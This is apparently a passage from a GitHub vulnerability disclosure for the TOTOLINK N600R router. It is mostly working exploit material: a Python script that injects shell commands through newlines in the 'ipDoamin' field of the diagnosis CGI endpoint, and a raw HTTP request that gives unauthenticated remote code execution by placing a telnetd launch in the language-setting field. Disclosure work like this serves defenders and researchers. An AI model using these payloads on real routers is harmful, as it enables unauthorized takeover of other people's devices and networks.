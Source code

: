 #### EXP

```
import sys
import requests
import json
try:
	ip=sys.argv[1]
	port=sys.argv[2]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi"%(ip,port)


command='ls -al'
headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
}
data={
	"topicurl":"setting/setDiagnosisCfg",
	"actionFlag":"1",
	"ipDoamin":"www.baidu.com\n{}\n".format(command)
}


print requests.post(url,headers=headers,data=json.dumps(data)).text
```

#### verification

![image-20220221190506864](https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20220221190506864.png)

### Vulnerability3

#### Detail

​	In TOTOLINK N600R equipment, command injection at the change language of the login interface, which can lead to unauthenticated RCE

<img src="https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20211111141004575.png" alt="image-20211111141004575" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 79
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/title.asp

{"topicurl":"setting/setLanguageCfg","langType":"cn;telnetd${IFS}-p${IFS}23;"}	
```